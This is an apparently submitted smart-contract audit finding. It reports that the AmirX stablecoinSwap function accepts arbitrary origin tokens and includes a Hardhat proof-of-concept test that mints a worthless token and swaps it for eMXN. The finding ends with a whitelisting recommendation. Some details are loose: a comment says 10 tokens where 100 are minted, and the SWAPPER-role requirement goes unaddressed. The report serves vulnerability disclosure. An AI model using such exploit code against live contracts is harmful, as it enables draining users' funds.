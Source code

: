 Little Rose Robin

high

# Execution of arbitrary swap using bad arguments



## Summary
The AmirX contract is a contract that facilitates token swaps and uses collected fees for buyback operations, however the swaps needs to be made by a trusted role which is the SWAPPER. The issue exists in stablecoinSwap(), normally this function is going to take from user an amount of tokens to swap from an origin currency to a target currency. The details of the swap are in form of a struct called StablecoinSwap in StablecoinHandler.sol and the checks for the swap are in swapAndSend function in StablecoinHandler also.

## Vulnerability Detail
A user can deploy a malicious tokens and use it in exchange to gain a huge amount of assets that exists in the contract. The bellow POC showcase this exact attack
We create a user called Badholder and deploy, grant all the necessary roles to the AmirX contract in order to make the swap happen. We then mint to our address as much as we want from origin Token and propose a swap, even if the value of the tokens we created is 0 we can still reedem it to a valuable token by abusing the swap.

```typescript
 it("swapAndSendVeryBad", async () => {
            await TestStable.connect(Badholder).initialize("Test", "TTXYZ", 6); //Deploying new token
            await TestStable.connect(Badholder).grantRole(MINTER_ROLE, AmirX); // Allowing AmirX contract to mint tokens
            await TestStable.connect(Badholder).grantRole(BURNER_ROLE, AmirX); // Allowing AmirX contract to burn tokens
            await TestStable.connect(Badholder).grantRole(MINTER_ROLE, Badholder); // Allowing the bad holder to mint tokens 
            await TestStable.connect(Badholder).mintTo(Badholder, 100); // Minting 10 tokens to the holder
            const stableInputs = {
                destination: Badholder,
                origin: TestStable,
                oAmount: 100,
                target: eMXN,
                tAmount: 100
            }

            const defiInputs = {
                aggregator: ZERO_ADDRESS,
                plugin: ZERO_ADDRESS,
                feeToken: ZERO_ADDRESS,
                referrer: ZERO_ADDRESS,
                referralFee: 0,
                walletData: '0x',
                swapData: '0x',
            }
                   
            await TestStable.connect(Badholder).approve(AmirX, 100);
             await AmirX.stablecoinSwap(Badholder, deployer, stableInputs, defiInputs);
            console.log(await TestStable.balanceOf(Badholder)); // This will be 0
            console.log(await eMXN.balanceOf(Badholder)); // This will be 100
        });
```

## Impact

Users will be able to drain all the liquidity by creating an artificial token and start swapping to a more valuable one without any check from the project.

## Code Snippet
[The stablecoinSwap function in AmirX](https://github.com/sherlock-audit/2024-02-telcoin-platform-audit-update/blob/main/telcoin-contracts/contracts/swap/AmirX.sol#L66-L94)
[The swapAndSend function in StablecoinHandler](https://github.com/sherlock-audit/2024-02-telcoin-platform-audit-update/blob/main/telcoin-contracts/contracts/stablecoin/StablecoinHandler.sol#L116-L132)

## Tool used

Manual Review

## Recommendation
I recommend the project to not allow users to swap from any arbitrary address and for example whitelist the tokens that the project will use. Each time a new token is added by a privileged roles users will be able to swap, and not allowing any one to swap from any origin token to any target one.The only check at this time is that the values entered by users should not be 0 which is not sufficient.


